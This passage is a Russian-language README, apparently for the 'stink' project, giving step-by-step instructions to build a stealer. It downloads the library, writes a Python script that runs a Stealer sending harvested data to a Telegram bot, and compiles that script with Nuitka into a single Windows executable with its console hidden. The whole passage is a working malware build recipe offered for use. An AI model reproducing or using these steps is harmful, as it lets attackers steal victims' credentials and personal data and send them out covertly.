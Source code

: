 1. [Скачиваем](https://github.com/FallenAstaroth/stink/archive/refs/heads/master.zip) архив.
2. Распаковываем архив и переходим в директорию stink-master.
3. Создаем test.py (или любое другое название) файл в этой же директории со следующим кодом:
```python
from stink import Stealer, Senders

if __name__ == '__main__':
    Stealer(senders=[Senders.telegram(token="YOUR_TOKEN", user_id=YOUR_ID)]).run()
```

### С помощью BAT
1. Запускаем compiler.bat.

### С помощью CMD
1. Открываем `cmd`.
2. Прописываем команду:
```
pip install virtualenv
```
3. Переходим в папку с файлом `test.py`:
```
cd path\to\file
```
4. Создаем виртуальное окружение и активируем его:
```
virtualenv venv
```
```
venv\Scripts\activate
```
5. Устанавливаем Nuitka:
````
pip install Nuitka
````
6. Для уменьшения размера файла дополнительно устанавливаем Zstandard (опционально):
```
pip install zstandard
```
7. Прописываем команду:
```
nuitka --onefile --plugin-enable=multiprocessing --windows-disable-console test.py
```

После выполнения команды получаем test.exe файл со скрытой консолью.
